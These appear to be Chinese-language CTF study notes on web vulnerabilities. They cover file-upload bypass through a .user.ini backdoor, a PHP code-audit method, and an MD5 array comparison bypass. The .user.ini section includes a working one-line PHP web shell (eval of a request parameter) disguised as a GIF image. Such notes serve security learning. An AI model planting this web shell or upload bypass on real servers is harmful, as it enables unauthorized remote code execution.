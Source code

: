 **resources**

[文件上传限制绕过原理以及方法总结](https://www.cnblogs.com/askta0/p/9190556.html#/c/subject/p/9190556.html)
### .htaccess
 .htaccess用于针对apache的

### .user.ini
考点: .user.ini后门
条件: 
- 服务器脚本语言为PHP
- 服务器使用CGI／FastCGI模式
- 上传目录下要有可执行的php文件

.user.ini
```
GIF89a
auto_prepend_file=a.jpg
```

a.jpg
```php
GIF89a
<script language="php">eval($_REQUEST[shell]);</script>
```

**resources**
https://xz.aliyun.com/t/6091#toc-1
https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html
## PHP代码审计常用语句


1.找到入口点，逐个突破
顾名思义，对于大多数页面，我们可以找到站点入口页面：index.php,admin.php,login.php等。逐一步进来分析。对于代码量小的源码可以采取这种方式。但当分析完整的框架/CMS时，基本可以gg。
2.危险函数/参数回溯法
最常用的审计（挖洞）方法。需要结合一些工具（例如：Xdebug+各类IDE）。通过部署环境——全局通扫危险函数/敏感参数——下断点/手动回溯——寻找是否存在利用链。这种方法可以快速定位潜在漏洞点上下文。
假如我们通扫到shell_exec,call_user_function,sql_query,eval这些喜闻乐见的函数，就可以定位到此处，然后回溯来推出是否存在利用链。
3.业务逻辑分析法
其实在做CTF的题目时候，我们都在使用这种方法。
存在登录框：是否存在SQL注入
存在登录/注册功能：是否存在二次注入
存在上传页面：是否存在上传
存在传URL参：是否存在SSRF
……
对于大的CMS，可以先部署完后，看一下存在什么功能。某些功能是漏洞的常客：初始安装（脱库），数据库备份（mysql重装getshell），密码找回（越权）等等。


### MD5-MD5-MD5

**MD5数组绕过**

若传入md5函数的参数为数组类型，则返回NULL，null===null，因此可以通过数组绕过===md5判断
